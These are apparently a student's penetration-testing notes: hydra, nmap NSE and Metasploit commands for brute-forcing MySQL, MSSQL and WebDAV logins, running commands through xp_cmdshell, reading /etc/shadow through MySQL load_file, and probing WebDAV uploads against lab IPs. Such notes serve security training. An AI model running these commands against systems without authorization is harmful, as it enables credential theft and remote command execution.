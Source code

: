 ## Port Information:

| SERVICE               | PORT NUMBER |
|-----------------------|-------------|
| http, https           | 80, 443     |
| SMB                   | 445(TCP)    |
| SMB on top of NETBIOS | 139         |

### Directory busting

- gobuster
- dirb
- msfconsole
- dirbuster

### Payload generation

- msfvenom

### Password enumeration

- hydra
    - for MySQL user ‘root’ we can also provide a username list
        
        ```jsx
        hydra 192.140.141.3 -l root /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  mysql
        ```
        
    - for WebDAV enumeration
        
        ```jsx
        hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 10.5.19.162 http-get /webdav/
        ```
        
- metasploid(msfconsole)
    - for brute forcing a MySQL user password eg ‘root’
        
        ```jsx
        use auxiliary/scanner/mysql/mysql_login
        ```
        

### Download the source code

- curl
- wget

### Open the website in the command line

- browsh → open the browser in the command line

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/f47dde30-36bf-4128-a5a2-df9580b08968/48ebad61-d33a-4908-83d9-1422799200d2/Untitled.png)

- lynx

## Ms-SQL(Microsoft based SQL) enumeration

- Nmap
    - for more info and NTLM info also
        
        ```jsx
        nmap 10.5.31.168 -sV -sC -p 1433
        ```
        
    - for information about the MSSQL database server
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-info
        ```
        
    - for brute forcing the users and their passwords on the MSSQL server
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt
        ```
        
    - what user have an empty password(or anonymous login)
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-empty-password
        ```
        
    - Execute MSSQL query to extract sysusers(syslogins)
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt
        ```
        
    - Execute a command on MSSQL
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
        ```
        
- msfconsole
    - brute forcing users and their passwords
        
        ```jsx
        use auxiliary/scanner/mssql/mssql_login
        ```
        
    - Running the MSSQL enumeration module to find all possible information
        
        ```jsx
        use auxiliary/admin/mssql/mssql_enum
        ```
        
    - Enumerate all MSSQL logins or extract MSSQL users
        
        ```jsx
        use auxiliary/admin/mssql/mssql_enum_sql_logins
        ```
        
    - Execute a command on the target machine
        
        ```jsx
        use auxiliary/admin/mssql/mssql_exec
        ```
        
    - Enumerate all available system users(or domain accounts)
        
        ```jsx
        use auxiliary/admin/mssql/mssql_enum_domain_accounts
        ```
        

## MySQL enumeration

- MySQL
    - connect with the database as ‘root’
        
        ```jsx
        mysql -h <IP address> -u root
        ```
        
- Nmap
    - MySQL user enumeration
        
        ```jsx
        nmap 192.99.192.3 -sV --script mysql-enum
        ```
        
    - what user have an empty password(or anonymous login)
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-empty-password
        ```
        
    - finding user through ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-users --script-args="mysqluser='root',mysqlpass=""”
        ```
        
    - finding databases on the SQL server through ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-databases --script-args="mysqluser='root',mysqlpass=""”
        ```
        
    - finding the data dir(or other variables) through ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-variables --script-args="mysqluser='root',mysqlpass=""”
        ```
        
    - Check whether File Privileges can be granted to non-admin users using mysql_audit nmap script.
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-audit --script-args="mysql-audit.username='root', mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'”
        ```
        
    - running our query on ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-query --script-args="query='Select * from books.authors;',username='root',password=''”
        ```
        
- *msfconsole*
    - for brute forcing a MySQL user password eg ‘root’
        
        ```jsx
        use auxiliary/scanner/mysql/mysql_login
        ```
        

## Basic my SQL commands

- Connect to the SQL server
    
    ```jsx
    mysql -h <IP address> -u <user>;
    ```
    
- to see the databases
    
    ```jsx
    Show databases;
    ```
    
- to select a database
    
    ```jsx
    Use <database name>;
    ```
    
- to see tables
    
    ```jsx
    Show tables;
    ```
    
- to see the count of rows from a table
    
    ```jsx
    Select count(*) from <tablename>;
    ```
    
- to see the values inside the table
    
    ```jsx
    Select * from <tablename>;
    ```
    
- to open a file in the SQL database
    
    ```jsx
    Select load_file("/etc/shadow");
    ```
    
    ---
    

## WebDAV Exploitation

- using nmap
    - WebDAV directory enumeration
        
        ```jsx
        nmap 10.5.19.162 -p 80 --script http-enum
        ```
        
- using Metasploit

## Davtest → used to check what files can be uploaded on the WebDAV server

- davtest
    
    ```jsx
    davtest -auth bob:password_123321 -url http://10.5.19.162/webdav/
    ```
    

## Cadaver → connecting to the WebDAV server.

- cadaver
    
    ```jsx
    cadaver http://10.5.19.162/webdav/
    ```
